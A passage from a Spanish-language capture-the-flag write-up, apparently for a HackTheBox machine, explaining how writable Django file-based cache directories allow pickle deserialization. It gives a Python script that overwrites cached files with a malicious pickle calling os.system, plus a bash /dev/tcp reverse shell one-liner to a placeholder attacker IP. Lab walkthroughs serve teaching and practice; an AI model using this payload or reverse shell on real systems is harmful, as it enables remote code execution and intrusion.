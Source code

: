 {{< alert >}}
**Warning!** Django utiliza `FileBasedCache` que es otro backend de caché de manera predeterminada para almacenar los valores de retorno relacionado con la vista.
{{< /alert >}}
* Riesgo de seguridad : si el directorio de caché se puede escribir y el contenido almacenado se utiliza directamente `pickle`, puede ser explotado por terceros para lanzar un ataque de deserialización (RCE).
* Django carga directamente el contenido de los archivos en caché sin ningún filtro. Esto significa que podemos construir cualquier contenido serializado malicioso para controlar el contenido devuelto por Django, incluso provocando un RCE. `Siempre que conozcamos el nombre y la ubicación de la caché,` podemos ejecutar código directamente.
* *Investigando encontre la carpeta donde django guarda la cache*


{{< figure 
src="14.png"
>}}
Cada ves que nos dirigimos a `http://hacknet.htb/explore?page=1` independiente del numero, sea 1,2,..n la cache se carga, y luego de 60 segundos todos los archivos son eliminados.
</br> Para ganar entonces acceso al usuario `sandy` tendremos que hacer lo siguiente.
* 1. Accedemos a `http://hacknet.htb/explore` para generar la cache.
* 2. Generamos la carga serializada de pickle, reescribiendo los archivos de la caché, lo siguiente es un script que realiza esta escritura.
Ejecuta en la terminal `echo '(bash >& /dev/tcp/TUIP/9091 0>&1)' | base64` ello debe ir en la variable cmd del script
```python3
import pickle  
import base64  
import os  
import time  
  
cache_dir = "/var/tmp/django_cache"  
cmd = "printf tu_rever_shell | base64 -d|bash"
  
class RCE:  
    def __reduce__(self):  
        return (os.system, (cmd,),)  
  
payload = pickle.dumps(RCE())  
  
for filename in os.listdir(cache_dir):  
    if filename.endswith(".djcache"):  
        path = os.path.join(cache_dir, filename)  
        try:  
            os.remove(path)
        except:  
            continue  
        with open(path, "wb") as f:  
            f.write(payload)
            print(f"[+] Written payload to {filename}")
```

{{< figure
src="15.png"
>}}
* 3. Nos volvemos a dirigir a  `http://hacknet.htb/explore` para que se ejecute la cache maliciosa que modificamos.
